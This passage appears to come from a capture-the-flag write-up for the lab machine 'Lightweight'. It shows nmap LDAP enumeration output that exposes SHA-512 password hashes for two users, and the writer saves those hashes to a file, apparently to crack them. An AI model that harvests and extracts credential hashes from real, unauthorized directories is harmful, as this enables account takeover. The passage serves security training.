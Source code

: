 ```text
|         objectClass: top
|         objectClass: shadowAccount
|         userPassword: {crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/
|         shadowLastChange: 17691
|         shadowMin: 0
|         shadowMax: 99999
|         shadowWarning: 7
|         loginShell: /bin/bash
|         uidNumber: 1000
|         gidNumber: 1000
|         homeDirectory: /home/ldapuser1
|     dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
|         uid: ldapuser2
|         cn: ldapuser2
|         sn: ldapuser2
|         mail: ldapuser2@lightweight.htb
|         objectClass: person
|         objectClass: organizationalPerson
|         objectClass: inetOrgPerson
|         objectClass: posixAccount
|         objectClass: top
|         objectClass: shadowAccount
|         userPassword: {crypt}$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
|         shadowLastChange: 17691
|         shadowMin: 0
|         shadowMax: 99999
|         shadowWarning: 7
|         loginShell: /bin/bash
|         uidNumber: 1001
|         gidNumber: 1001
|         homeDirectory: /home/ldapuser2
|     dn: cn=ldapuser1,ou=Group,dc=lightweight,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: ldapuser1
|         userPassword: {crypt}x
|         gidNumber: 1000
|     dn: cn=ldapuser2,ou=Group,dc=lightweight,dc=htb
|         objectClass: posixGroup
|         objectClass: top
|         cn: ldapuser2
|         userPassword: {crypt}x
|_        gidNumber: 1001Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```

The script found hashed passwords for both _ldapuser1_ and _ldapuser2_. Let’s save both hashes in a file called _hashes.txt_.

```text
$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/
$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1
```
